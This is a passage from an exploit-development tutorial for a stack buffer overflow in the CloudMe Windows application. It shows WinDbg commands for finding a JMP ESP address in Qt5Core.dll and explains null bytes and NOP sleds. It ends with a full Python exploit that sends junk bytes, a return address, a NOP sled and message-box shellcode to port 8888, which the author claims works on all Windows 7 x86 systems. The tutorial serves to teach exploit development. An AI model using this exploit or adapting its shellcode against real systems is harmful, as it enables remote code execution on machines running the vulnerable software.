 Press Enter and now use u (unassemble) followed by the address that was shown before entering .

Next to 77903c48, you can see ffe4. This is the opcode for jmp esp. Now we need to find this opcode in one of the loaded dll’s. Command for list all dll's in WinDGB is lm (List Loaded Modules) .
0:014> lm
start end module name
00400000 00831000 CloudMe (no symbols)
00ad0000 010e6000 Qt5Widgets (export symbols) C:\Users\Buffer\AppData\Local\Programs\CloudMe\CloudMe\Qt5Widgets.dll
61b40000 62136000 Qt5Gui (export symbols) C:\Users\Buffer\AppData\Local\Programs\CloudMe\CloudMe\Qt5Gui.dll
64b40000 64b5b000 libwinpthread_1 (export symbols) C:\Users\Buffer\AppData\Local\Programs\CloudMe\CloudMe\libwinpthread-1.dll
66e00000 66e3d000 Qt5Xml (export symbols) C:\Users\Buffer\AppData\Local\Programs\CloudMe\CloudMe\Qt5Xml.dll
68a80000 69055000 Qt5Core (export symbols) C:\Users\Buffer\AppData\Local\Programs\CloudMe\CloudMe\Qt5Core.dll
69900000 69ac1000 Qt5Network (export symbols) C:\Users\Buffer\AppData\Local\Programs\CloudMe\CloudMe\Qt5Network.dll
6aa80000 6ac37000 qwindows (export symbols) C:\Users\Buffer\AppData\Local\Programs\CloudMe\CloudMe\platforms\qwindows.dll
6b0a0000 6b1d6000 dwrite (pdb symbols) c:\windgb\DWrite.pdb\DC9F0D2B8853406E849F7785A337997D1\DWrite.pdb
6d9c0000 6da0c000 Qt5Sql (export symbols) C:\Users\Buffer\AppData\Local\Programs\CloudMe\CloudMe\Qt5Sql.dll
6e290000 6e37e000 MSVCR120 (private pdb symbols) c:\windgb\msvcr120.i386.pdb\16F5E2EF340A453ABC8B8F67DC6FD8082\msvcr120.i386.pdb
6e540000 6e67a000 LIBEAY32 C (export symbols) C:\Users\Buffer\AppData\Local\Programs\CloudMe\CloudMe\LIBEAY32.dll
6eb40000 6eb64000 libgcc_s_dw2_1 (export symbols) C:\Users\Buffer\AppData\Local\Programs\CloudMe\CloudMe\libgcc_s_dw2-1.dll
6fe40000 6ffbe000 libstdc___6 (export symbols) C:\Users\Buffer\AppData\Local\Programs\CloudMe\CloudMe\libstdc++-6.dll
..................................................................................................................................
HERE IS JUST CloudMe DLL'S !!!
...................................................................................................................................
If we can find the opcode in one of these dll’s, then we have a good chance of making the exploit work reliably across windows platforms. If we need to use a dll that belongs to the OS, then we might find that the exploit does not work for other versions of the OS. So let’s search the area of one of the CloudMe dll’s first.
68a80000 69055000 Qt5Core (export symbols) C:\Users\Buffer\AppData\Local\Programs\CloudMe\CloudMe\Qt5Core.dllFirst address 0x68a80000 is were start module and secound address 0x69055000 is end of modul . We search in this interval ,but we use just ff e4 area .

If you somehow meet address start with 00 that is bad . If you read previous article about shellcode you see that is Null bite.We need to found a clear address let's search deep.
We use first address because don't contain Null Bites 0x68a98a7b.
68 a9 8a 7b
\x7b\x8a\xa9\x68
Another good area to search for opcodes is :
s -b 0x00000000 L?0xffffffff ff e4Let's make a last edit in python script , we have jmp esp ,we have offset, we have all pice. We need just generate a shellcode. I founded this shellcode on exploitdb.This shellcode will pop up a message "BrokenByte".
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
"\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
"\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
"\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
"\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
"\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x79\x74"
"\x65\x01\x68\x6b\x65\x6e\x42\x68\x20\x42\x72\x6f\x89\xe1\xfe"
"\x49\x0b\x31\xc0\x51\x50\xff\xd7"
Let's edit the python script! But dont forget NOP. NOP is an assembly instruction that is short for no operation. It is a single-byte instruction that does absolutely nothing. These instructions are sometimes used to waste computational cycles for timing purposes and are actually necessary in the Sparc processor architecture, due to instruction pipelining. In this case, NOP instructions are going to be used for a different purpose: as a fudge factor. We’ll create a large array (or sled) of these NOP instructions and place it before the shellcode; then, if the EIP register points to any address found in the NOP sled, it will increment while executing each NOP instruction, one at a time, until it finally reaches the shellcode. On the x86 architecture, the NOP instruction is equivalent to the hex byte 0x90
import socket
target="127.0.0.1"
junk="A"*1052
jmp="\x7b\x8a\xa9\x68" # 0x68a98a7b this address is founded in JMP ESP - Qt5Core.dll
nop="\x90"*24
buf = ("\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
"\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
"\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
"\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
"\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
"\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x79\x74"
"\x65\x01\x68\x6b\x65\x6e\x42\x68\x20\x42\x72\x6f\x89\xe1\xfe"
"\x49\x0b\x31\xc0\x51\x50\xff\xd7")
payload=junk+jmp+nop+buf
try:
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(payload)
except:
print "Don't Crash Me !"
Run script and BOOM !!! This script work in all version of Windows 7 x86!!

I hope you like this article about Windows Exploit Development and sorry for my bad English , i am not a native speaker (Happy Hack)
References!!
http://www.shogunlab.com/blog/2017/08/19/zdzg-windows-exploit-1.htmle